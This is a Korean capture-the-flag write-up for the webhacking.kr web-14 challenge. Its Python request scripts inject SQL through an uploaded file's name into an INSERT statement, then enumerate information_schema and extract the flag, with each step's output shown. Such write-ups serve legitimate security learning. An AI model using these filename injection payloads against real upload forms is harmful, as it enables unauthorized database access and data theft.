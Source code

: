 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-14-11-09.png)


# **Write-Up**

파일 하나 올려보면 시간과 ip, 파일 명이 올라간다. 아마도 insert이후 ip기준 select인 듯 하다.

![](images/2022-01-03-14-11-24.png)

다음과 같은 코드를 실행할 때, insert가 되는 것을 보아 file, time, ip순으로 값을 채워주면 될 듯하다.

```python
import requests

CHALLENGE   = 'https://webhacking.kr/challenge/web-14/index.php'
SESSION_ID  = '3pahrvqafgv3j0jav7q3qg03nh'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
files       = {'upfile': ('1\', 2, \'61.251.215.194\')#', 'hello world')}
req         = requests.post(CHALLENGE, headers=headers, files=files)

[Output]
--------------------------------------------------------------
1970-01-01 09:00:02	|	61.251.215.194	|	1
--------------------------------------------------------------
```

모든 값을 조작할 수 있지만, 시간은 귀찮아지고, ip는 입력한 ip만 select되니 고정이어야 하고, 만만한건 파일명을 조작하는 것이다.

insert시에 파일 명은 string값일테니 ' 혹은 " 이 붙을 것이다. 따라서 values 값을 2개로 늘려 입력하여 SQLi를 시도하자.

```python
import requests

files       = {'upfile':('0\', 0, \'61.251.215.194\'),((select database()), 0, \'61.251.215.194\')#','Hello world')}

CHALLENGE   = 'https://webhacking.kr/challenge/web-14/index.php'
SESSION_ID  = '3pahrvqafgv3j0jav7q3qg03nh'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

req         = requests.post(CHALLENGE, headers=headers, files=files)

[Output]
--------------------------------------------------------------
1970-01-01 09:00:00	|	61.251.215.194	|	chall29
--------------------------------------------------------------
```

문제에서 FLAG는 다른 테이블에 있다고 했으니 테이블 명들을 뽑아보자.

```python
import requests

files       = {'upfile':('0\', 0, \'61.251.215.194\'),((SELECT GROUP_CONCAT(table_name) from information_schema.tables where TABLE_SCHEMA=\'chall29\'), 0, \'61.251.215.194\')#','Hello world')}

CHALLENGE   = 'https://webhacking.kr/challenge/web-14/index.php'
SESSION_ID  = '3pahrvqafgv3j0jav7q3qg03nh'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

req         = requests.post(CHALLENGE, headers=headers, files=files)

[Output]
--------------------------------------------------------------
1970-01-01 09:00:00	|	61.251.215.194	|	files,flag_congratz
--------------------------------------------------------------
```

flag_congratz 테이블의 컬럼 명을 알아보자.

```python
import requests

files       = {'upfile':('0\', 0, \'61.251.215.194\'),((SELECT GROUP_CONCAT(column_name) from information_schema.columns where table_name=\'flag_congratz\'), 0, \'61.251.215.194\')#', 'Hello world')}

CHALLENGE   = 'https://webhacking.kr/challenge/web-14/index.php'
SESSION_ID  = '3pahrvqafgv3j0jav7q3qg03nh'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

req         = requests.post(CHALLENGE, headers=headers, files=files)

[Output]
--------------------------------------------------------------
1970-01-01 09:00:00	|	61.251.215.194	|	flag
--------------------------------------------------------------
```

데이터를 뽑아보자.

```python
import requests

files       = {'upfile':('0\', 0, \'61.251.215.194\'),((SELECT flag from flag_congratz), 0, \'61.251.215.194\')#', 'Hello world')}

CHALLENGE   = 'https://webhacking.kr/challenge/web-14/index.php'
SESSION_ID  = '3pahrvqafgv3j0jav7q3qg03nh'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

req         = requests.post(CHALLENGE, headers=headers, files=files)

[Output]
--------------------------------------------------------------
1970-01-01 09:00:00	|	61.251.215.194	|	FLAG{didYouFeelConfused?_sorry:)}
--------------------------------------------------------------
```

점수를 획득하자.

![](images/2022-01-03-14-11-56.png)


# **FLAG**

**FLAG{didYouFeelConfused?_sorry:)}**